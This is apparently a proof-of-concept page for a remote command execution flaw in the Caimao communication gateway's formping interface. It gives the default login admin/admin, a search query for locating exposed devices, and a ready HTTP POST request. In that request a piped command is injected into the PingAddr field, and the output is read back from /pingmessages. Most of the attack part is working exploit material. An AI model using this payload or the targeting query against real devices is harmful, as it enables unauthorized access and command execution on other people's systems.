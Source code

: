 # Caimao Communication Gateway formping Remote Command Execution Vulnerability

## Vulnerability Description

The Caimao Communication Gateway formping interface has a remote command execution vulnerability. The attacker can obtain server permissions through the command after logging in to the system through the default password admin/admin.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Caimao Communications Gateway </span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="CAIMORE-Gateway"</span>

## Vulnerability reappears

Login page, default password admin/admin

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1681381379945-dee7d6a4-f5ab-477b-988f-73c5b0d53986.png)

Verify POC

```plain
POST /goform/formping
Authorization: Basic YWRtaW46YWRtaW4=

PingAddr=www.baidu.com%7Cls&PingPackNumb=1&PingMsg=
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1681386245774-e2311065-b689-435f-b070-7361306ae064.png)



```plain
/pingmessages
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1681386230461-7f63b5d4-1994-4408-b30a-adbd73cc33a4.png)